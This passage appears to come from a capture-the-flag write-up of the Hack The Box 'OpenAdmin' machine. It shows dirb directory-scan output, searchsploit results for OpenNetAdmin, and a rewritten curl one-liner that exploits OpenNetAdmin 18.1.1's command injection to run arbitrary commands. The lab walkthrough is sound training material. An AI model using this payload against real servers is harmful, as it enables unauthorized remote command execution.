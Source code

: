     -----------------
    DIRB v2.22
    By The Dark Raver
    -----------------

    START_TIME: Tue Jan  7 04:29:49 2020
    URL_BASE: http://10.10.10.171/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612

    ---- Scanning URL: http://10.10.10.171/ ----
    ==> DIRECTORY: http://10.10.10.171/artwork/
    + http://10.10.10.171/index.html (CODE:200|SIZE:10918)
    ==> DIRECTORY: http://10.10.10.171/music/
    + http://10.10.10.171/server-status (CODE:403|SIZE:277)

The artwork directory is a rabbit hole (there is no dynamic code even for the
contact page) but it was found first by dirb.

![Artwork page](/media/2020.xx/openadmin_2.png)

The music directory offer a login page which redirect us to the ona webpage.

![Music page](/media/2020.xx/openadmin_3.png)

![Music page](/media/2020.xx/openadmin_4.png)

## OpenAdmin

We can see on the ona (opennetadmin) that the version is the 18.1.1 which is not
the latest. Using searchsploit we found a exploit for this specific version.

    :::text
    searchsploit opennetadmin
    ------------------------ ----------------------------------------
     Exploit Title          |  Path
                            | (/usr/share/exploitdb/)
    ------------------------ ----------------------------------------
    OpenNetAdmin 13.03.01 - | exploits/php/webapps/26682.txt
    OpenNetAdmin 18.1.1 - R | exploits/php/webapps/47691.sh
    ------------------------ ------------------------------------

The script was not working out of the box for me so I "rewrote" it (it is a
oneliner in bash).

    :::bash
    CMD="${1}"
    curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${CMD};echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/"  | sed -n -e '/BEGIN/,/END/ p'
